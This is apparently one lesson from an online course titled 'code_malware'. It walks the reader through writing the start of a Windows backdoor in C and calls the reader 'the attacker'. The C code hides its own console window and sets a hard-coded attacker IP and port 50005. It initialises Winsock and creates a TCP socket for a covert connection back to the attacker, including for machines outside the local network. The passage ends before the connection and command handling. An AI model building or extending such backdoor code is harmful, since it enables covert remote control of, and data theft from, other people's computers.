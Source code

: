 ```yaml
---
title: Creating our socket object
course: code_malware
section: "Building sockets"
layout: lesson
---
```


Let's create the socket which will allow us to connect our server and our
client.

The first thing we'll need is to create a structure called "_ServAddr_" whose type
will also be "_sockaddr_in_". In C, a structure is defined and called as it is
known as classes in other languages. We will also define the port in which the
server is being executed, to do so, we'll create a variable called "_ServPort_"
whose type is an "_unsigned int_".

The reason why we are creating these variables, is because we'll need to define
both the IP address and the port in which our backdoor will perform the
connection to send and receive data.

Let's create a new variable called "_ServIP_" whose type will be the pointer to
a char. The code we've written in this lesson so far looks like this:

```c
struct sockaddr_in ServAddr;
unsigned short ServPort;
char *ServIP;
```

> Tip: For those who are not familiriased with C-based languages programming, a
> pointer is a variable that references a block or a space in memory.

The last variable we'll need to create so far, will be called "_wsaData_" and
its type will be "**WSADATA**". **WSADATA** is a structure that contains
information about Windows sockets, so this is something we'll need to stablish a
connection through sockets between server and client.

Once we've properly defined the previously mentioned variables, we'll set to
"_ServIP_" the IP address of the machine that will be sending data to the
infected device, that's you, the attacker. If you are going to be using virtual
machines to perform tests, you must specify the IP address of the device you
will be using, you can see your IP address by executing "`ifconfig`" in a
terminal emulator, there will appear all of the network interfaces available,
you should use the IP address of the interface you will be using when running
the tests. If you will infect a windows Machine that is not in your local
network, you must use your public IP address, you can get it by running
"`curl icanhazip.com`" in a shell.

To assign the value to "_ServIP_", in a new line, type:

```c
ServIP = "[IP ADDRESS]"
```

In the same way, we'll specify the port in which the server will be awaiting for
the connection. To do so, we will need to assign a value to "_ServPort_" too,
but, unlike "_ServIP_" this one is not of type "_char_", this one is "_int_",
which means, that "_ServPort_" will only accept integer numbers. You can choose
the port you want as long as it remains open and is not being used by some other
application. I'll be using the port 50005.

Once we have stored that information into our variables, we'll use the
"_WSAStartup_" inside of an "_if_" statement as it is shown below:

```c
if(WSAStartup()) {
}
```

To this function, we'll need to pass some arguments, the first one is a function
called "**MAKEWORD**", as it is a function, we'll open another pair of brackets,
inside of them we'll write "**2,0**" and the second argument that "_WSAStartup_"
requires is the memory block that "_wsaData_" is in.

> To get the block of memory of a pointer variable, you write "&" before the
> variable name, for example: "&wsaData"

We'll check if "_WSAStartup(MAKEWORD(2,0), &wsaData)_" is different to zero, if
it is we'll exit the program. This if statement looks like this:

```c
if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
  exit(1);
}
```

What we are doing, is check if the value that the function "_WSAStartup_"
returns is equals to zero. If it is, what is inside of the **if** block will not
be executed as the condition is not true, but if it is not zero, what is inside
of the curly brackets ("{}") will be executed, which means, the program will be
stopped.

Once the program was being initialised properly and its execution was not
stopped, we'll create a socket object. To do, we'll go out of the main function
"WinMain" and we will define it there. Why? Simple, because we will need that
same socket outside of the "_WinMain_" function, if we define it there, it would
be only accessible for what is inside of that function.

When we are outside of the function, we will create an integer variable called
"_sock_".

Now, once we have defined our "_sock_" variable, we'll return to the "_WinMain_"
function and right below of our "**if**" comparison we'll assign the following
value to sock:

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
```

We are defining sock as a socket by using the function "_socket_", this function
takes three arguments, the first one "**AF_INET**" represents an IPv4
connection, the second parameter "**SOCK_STREAM**" represents a TCP connection
and the third parameter is "0" as we don't need anything else.

What we will need to do later, is to modify the paramters of "_ServAddr_" as
it inherits the "_sockaddr_in_" values, but before we do that, we'll need to
turn into zeroes all of them, to do so we will need the "_memset_" function.
This function takes three parameters, the first is the memory block that
"_ServAddr_" uses (remember to use the "&"), the second parameter will be "0" as
we want to turn all of the memory space that "_ServAddr_" uses into zeros and
the third, is the size of the memory that is being use by "_ServAddr_" you can
get it by simple passing "**sizeof** _ServAddr_". That line would look like
this:

```c
memset(&ServAddr, 0, sizeof(ServAddr));
```

Now let's add custom values to the "_ServAddr_" variables (to access to them
we'll need to use a dot "." after the variable name). The first is
"_sin_family_" whose value will be set to "**AF_INET**", the second one is
"_sin_addr.s_addr_" whose value will be the server's IP address. We can't use
our variable "_ServIP_" as it is an string and not an IP address (that our C
program can recognise), so we'll convert it using a function called "_inet_addr_"
and pass "_ServIP_" as argument. The last parameter will be "_sin_port_" and as
it happened with the IP address we can't simply use our variable "_ServPort_",
instead of using "_inet_addr_" we will use "_htons_" and we will pass
"_ServPort_" as argument, in that way, our C program will recognise and be able
to work with our port.

Our code so far looks like this:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

int sock;

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);
}
```
